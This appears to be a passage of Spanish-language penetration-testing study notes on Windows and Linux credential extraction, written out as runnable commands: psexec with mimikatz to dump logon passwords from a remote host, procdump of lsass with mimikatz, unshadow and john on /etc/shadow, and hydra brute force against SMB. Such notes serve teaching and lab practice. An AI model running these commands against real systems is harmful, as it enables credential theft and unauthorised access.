 Bien ahora combinando `psexec` y `mimikatz`  podríamos llegar a extraer los datos de la cuenta admin de un host remoto desde un usuario sin privilegios.

```bash
psexec.exe  \\10.1.1.13 -u WIN7\pedro  -p pedro123 -c mimikatz privilege::debug sakurlsa::logonpasswords exit > crecenciales.txt
```



##### Ophcrack

Es un programa tanto instalable como portable que extrae los hash el sistema y tiene la posibilidad de crackear mediante fuerza bruta los hashes.



##### Procdump

Es otro programa de windows para extraer hash del sistema, este los extrae en un formato `.dmp` para posteriormente descifrarlo con mimikatz u otros.

Los archivos que utiliza para esta extracción son `windows/system/config/{sam,system}`   

```bash
procdump.exe -na lsass.exe lsassdump -accepteula
```

```bash
mimikatz.exe
sekurlsa::minidump lsassdump.dmp
sekurlsa::logonpasswords
```



##### unshadow/john  

Estos son 2 comandos de linux donde juntan los usuarios con sus contraseñas cifradas en un archivo, para posteriormente descifrarlas mediante fuerza bruta.

```bash
unshadow /etc/passwd /etc/shadow > hash-unix
john hash-unix
```



##### Fuerza bruta

Esta la posibilidad de utilizar fuerza bruta para resolver contraseñas, hay diferentes métodos:

- profundidad: 1 usuario muchas contraseñas 
- anchura: muchos usuarios y una contraseña
- profundidad/anchura:  muchos usuarios y muchas contraseñas.

Estos procesos son muy lentos y en según que casos el servicio puede bloquearnos por el uso excesivo de pruebas, en todo caso este método hace uso de diccionarios, es decir una lista muy grande de  posibilidades e ir probando hasta que alguna coincida.

```bash
hydra -L users -p Soc123 -vV 10.1.1.5 smb # diccionario de usuarios a 1 contraseña
hydra -l soc -P paswords -vV 10.1.1.5 smb	# diccionario de passwords a 1 usuaro
hydra -L users -P paswords -vV 10.1.1.5 smb	# diccionario de users y passwords
```
